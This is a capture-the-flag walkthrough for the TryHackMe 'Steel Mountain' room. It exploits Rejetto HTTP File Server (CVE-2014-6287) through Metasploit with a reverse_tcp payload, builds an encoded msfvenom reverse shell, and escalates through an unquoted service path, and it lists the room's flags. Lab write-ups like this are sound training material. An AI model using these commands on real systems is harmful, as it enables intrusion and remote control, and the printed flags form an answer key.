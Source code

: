 ![c9030a2b60bb7d1cf4fcb6e5032526d3](https://github.com/user-attachments/assets/1fccd7c7-a3e3-414c-85f9-337b55ee033d)
 
https://tryhackme.com/room/steelmountain

# Steel Mountain Walkthrough
## TASK 1 - Introduction

Who is the employee of the month?

![Screenshot](https://github.com/user-attachments/assets/30f54f4f-514e-4272-8cc1-bfa085274d4d)

(Bill Harper)

## TASK 2 - Initial Access

Scan the machine with nmap. What is the other port running a web server on?

![Firefox_Screenshot_2025-03-26T17-56-36 928Z](https://github.com/user-attachments/assets/28807218-6b07-4918-9432-85ef064207b6)

(8080)

Take a look at the other web server. What file server is running?

Open the port 8080 and notice the file server link.

(Rejetto HTTP File Server)

What is the CVE number to exploit this file server?

When you did research on google, you can find CVE number about Rejetto HTTP File Server 2.3: https://www.exploit-db.com/exploits/39161

(2014-6287)

Use Metasploit to get an initial shell. What is the user flag?

1) msfconsole
2) search 2014-6287
3) use 0
4) show options

![Firefox_Screenshot_2025-03-26T20-44-31 403Z](https://github.com/user-attachments/assets/495e8e23-9302-487f-beeb-a6046e0f6b0f)

5) We have to set RHOSTS and RPORT

set RHOSTS $IP

set RPORT 8080

6) set payload windows/meterpreter/reverse_tcp
7) run
8) C:\Users\bill\Desktop // cat user.txt

![Firefox_Screenshot_2025-03-26T21-20-35 228Z](https://github.com/user-attachments/assets/b6350317-e3d9-4aaf-b85b-2f718cd37ddb)

(b04763b6fcf51fcd7c13abc7db4fd365)

## TASK 3 - Privilege Escalation

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

1) Download the script (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

2) Upload the script from meterpreter session

![Untitled](https://github.com/user-attachments/assets/0f37002b-a7e0-41a2-9817-594243222e8c)

3) Load powershell in meterpreter (type "load powershell" into meterpreter)

4) Type powershell_shell

5) Type . .\Powerup.ps1

6) Type Invoke-AllChecks

![Untitled](https://github.com/user-attachments/assets/d880fac8-5106-4520-8b72-e02d993c38dd)

(AdvancedSystemCareService9)

What is the root flag?

1) Use msfvenom to generate a reverse shell as an Windows executable. (msfvenom -p windows/shell_reverse_tcp LHOST=your_ip LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe)

![Untitled](https://github.com/user-attachments/assets/288ddbd5-7d64-404c-9692-fffcaede24c0)

2) Open shell and stop the service which using ASCService.exe

sc stop AdvancedSystemCareService9

![Untitled](https://github.com/user-attachments/assets/573a1849-6339-43c0-b846-9610b767b322)

After that exit the shell.

3) Go to C:\Program Files (x86)\IObit\Advanced SystemCare and upload ASCService.exe file which we generated.

![adsa](https://github.com/user-attachments/assets/25367f9a-79ac-4166-9acb-387c55ae4dd0)

4) We need to listen our reverse shell. Open new terminal and ...

![adsa](https://github.com/user-attachments/assets/e3ad13f7-1405-42db-a0de-d106bd728ed3)

5) Return to meterpreter, open shell and "sc start AdvancedSystemCareService9"

![adsa](https://github.com/user-attachments/assets/7cbb3251-f21e-4e2f-a35c-c7ec4ddc4f89)

6) After that return to netcat terminal which we listining our reverse shell

![adsa](https://github.com/user-attachments/assets/00fa06a6-da7a-4915-8cc4-61b7f4da7074)


(9af5f314f57607c00fd09803a587db80)

## TASK 4 - Access and Escalation Without Metasploit

What powershell -c command could we run to manually find out the service name? 

(powershell -c "Get-Service")



